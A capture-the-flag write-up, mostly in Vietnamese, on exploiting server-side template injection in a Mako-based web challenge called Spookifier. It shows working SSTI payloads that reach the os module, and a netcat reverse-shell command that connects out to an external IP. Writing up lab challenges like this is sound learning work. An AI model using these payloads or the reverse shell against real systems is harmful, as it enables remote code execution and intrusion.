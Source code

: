 # **Hack The Boo CTF 2022**
## **Spookifier** 
___
### **Description:**

There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?
```
142.93.35.129:30478
```
___
### **Recon:**

Nhập vào một test và web sẽ render ra 4 font chữ cho ta.

![1.png](https://github.com/L4P1Nz/Hack-The-Boo/blob/main/Spookifier/img/1.png)

Nhập vào một test và web sẽ render ra 4 font chữ cho ta.

Sau khi đọc source thì mình biết là web này sử dụng Template Mako. SSTI!

Mình sử dụng [payload](https://podalirius.net/en/articles/python-context-free-payloads-in-mako-templates/) này và tiến hành test các dự đoán

```
test=${7*'7'}
```
![2.png](https://github.com/L4P1Nz/Hack-The-Boo/blob/main/Spookifier/img/2.png)

```
test=${self.module.cache.util.os}
```
![3.png](https://github.com/L4P1Nz/Hack-The-Boo/blob/main/Spookifier/img/3.png)


Nhưng mình không thể thực hiện command
```
test=${self.module.cache.util.os.system("id")}
```
![6.png](https://github.com/L4P1Nz/Hack-The-Boo/blob/main/Spookifier/img/6.png)

Mình chạy ở máy local và phát hiện command vẫn được thực hiện nhưng lại không xuất kết quả ra cho mình xem. Dùng reverse shell!

![4.png](https://github.com/L4P1Nz/Hack-The-Boo/blob/main/Spookifier/img/4.png)

### **Exploit:**

Sau một test thì mình sử dụng:

```
test=${self.module.cache.util.os.system("nc 18.139.9.214 12320 -e /bin/sh")}
```
![5.png](https://github.com/L4P1Nz/Hack-The-Boo/blob/main/Spookifier/img/5.png)
